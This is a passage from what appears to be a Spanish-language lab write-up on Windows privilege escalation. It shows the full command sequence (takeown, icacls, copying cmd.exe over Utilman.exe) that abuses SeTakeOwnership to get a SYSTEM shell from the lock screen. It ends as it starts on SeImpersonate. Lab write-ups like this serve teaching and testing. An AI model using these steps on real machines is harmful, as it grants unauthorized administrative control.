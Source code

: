 El privilegio *SeTakeOwnership* permite a un usuario adquirir la propiedad sobre cualquier objeto en el sistema (ficheros, system keys, etc).

En primer lugar, acudimos a nuestro usuario y miramos los privilegios que poseemos con: *whoami /priv*:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220902123843.png' | relative_url }}" text-align="center"/>
</div>

Podemos observar que tenemos el privilegio de TakeOwnership. Vamos a explotar esta característica mediante *utilman.exe*, este es un servicio que ofrece acceso a una serie de opciones en la pantalla de bloqueo:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220902124119.png' | relative_url }}" text-align="center"/>
</div>

Por un lado, este binario se ejecuta como SYSTEM, por otro lado, como tenemos el privilegio anterior, podemos hacernos con su propiedad fácilmente y reemplazar así el contenido. En consecuencia, podemos adquirir la capacidad de ejecutar código arbitrario en el sistema con otra cuenta que es en un sentido efectivo una escalada de privilegios.

Así, en primer lugar, tomamos posesión del archivo:

```cmd
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

Esto no nos da permisos sobre el fichero pero al ser propietarios podemos asignarnos cualquier permiso:

```cmd
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Seguidamente reemplazamos el fichero malicioso:

```cmd
C:\Windows\System32\> copy cmd.exe utilman.exe 1 file(s) copied.
```

Seguidamente cerramos sesión y clickamos sobre "Ease of Access" para abrir una cmd como administrador.

<br />

- *SeImpersonate/SeAssignPrimaryToken*:

El privilegio *SeImpersonate/SeAssignPrimaryToken* permite a un proceso impersonar otros usuarios y actuar en su nombre. Concretamente impersonar consiste en ser capaz de realizar una acción en el contexto de seguridad de otro usuario.

